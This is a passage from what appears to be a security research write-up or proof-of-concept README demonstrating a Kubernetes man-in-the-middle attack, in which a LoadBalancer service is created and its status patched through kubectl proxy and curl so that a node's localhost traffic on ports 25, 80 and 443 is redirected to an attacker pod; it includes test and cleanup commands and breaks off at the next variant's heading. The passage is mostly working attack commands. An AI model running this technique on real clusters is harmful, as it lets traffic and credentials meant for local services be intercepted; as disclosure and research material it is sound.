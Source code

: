 ### 4a) node localhost traffic interception using service type LoadBalancer

(This might also work against a container with hostNetwork=true)

Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-local-lb
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: smtp
    port: 25
    protocol: TCP
    targetPort: 8080
  - name: http
    port: 80
    protocol: TCP
    targetPort: 8080
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/kubeproxy-mitm/services/mitm-local-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"127.0.0.1"}]}}}'
pkill kubectl
```

On my CentOS7 there is postfix listening on 127.0.0.1:25 (thus the test with port 25)
Test if the MITM works
```
curl http://127.0.0.1:25
curl http://127.0.0.1
curl https://127.0.0.1 -k
```
Cleanup
```
kubectl delete -n kubeproxy-mitm svc/mitm-local-lb
```

### 4b) node localhost traffic interception using service type ClusterIP + externalIPs
